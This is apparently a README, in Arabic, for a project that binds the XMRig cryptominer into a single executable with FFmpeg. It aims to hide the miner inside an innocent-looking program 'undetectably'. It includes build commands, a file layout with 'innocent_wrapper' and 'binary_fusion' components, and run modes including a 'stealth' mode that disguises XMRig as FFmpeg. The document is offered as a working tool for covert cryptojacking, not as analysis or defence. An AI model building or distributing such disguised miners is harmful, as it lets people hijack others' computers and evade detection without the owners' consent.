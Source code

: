 # 🔗 Advanced Linking System

نظام دمج متقدم لربط العمليات الخفية مع البرامج البريئة بطريقة غير قابلة للكشف.

## 🎯 طرق الدمج المتاحة

### **1. نظام التشغيل المتوازي (linking_builder.sh)**
- تشغيل برامج منفصلة بالتوازي
- مراقبة ذكية وتزامن العمليات
- سهولة في التطوير والصيانة

### **2. نظام الدمج الثنائي الكامل (fusion_builder.sh) - الجديد!**
- دمج FFmpeg + XMRig في ملف تنفيذي واحد
- تبديل ذكي بين الأوضاع
- صعوبة فائقة في الكشف

## 📁 هيكل المجلد

```
Linking/
├── 🚀 linking_builder.sh         # نظام التشغيل المتوازي
├── 🔥 fusion_builder.sh          # نظام الدمج الثنائي الكامل
├── 📝 main.cpp                   # للنظام المتوازي
├── 🎭 innocent_wrapper.h/.cpp    # تشغيل البرامج البريئة
├── 🔗 seamless_integrator.h/.cpp # التكامل السلس
├── 🔥 binary_fusion.h/.cpp       # نظام الدمج الثنائي
├── 📖 README.md                  # هذا الملف
└── 📂 output/                    # مجلد الإخراج
```

## 🔥 **النظام الجديد: الدمج الثنائي الكامل**

### **المفهوم:**
```
ملف تنفيذي واحد = FFmpeg مدمج + XMRig مدمج + نظام تحكم ذكي
```

### **الاستخدام:**
```bash
# 1. ضع الملفات المطلوبة
cp /path/to/ffmpeg ./           # ملف FFmpeg المبني مسبقاً
cp /path/to/xmrig ./            # ملف XMRig المبني مسبقاً

# 2. بناء الدمج
chmod +x fusion_builder.sh
./fusion_builder.sh

# 3. تشغيل النتيجة
cd output
./fused_binary auto             # وضع تلقائي ذكي
./fused_binary stealth          # XMRig مخفي كـ FFmpeg
./fused_binary innocent         # FFmpeg فقط
./fused_binary hybrid           # الاثنين معاً
```
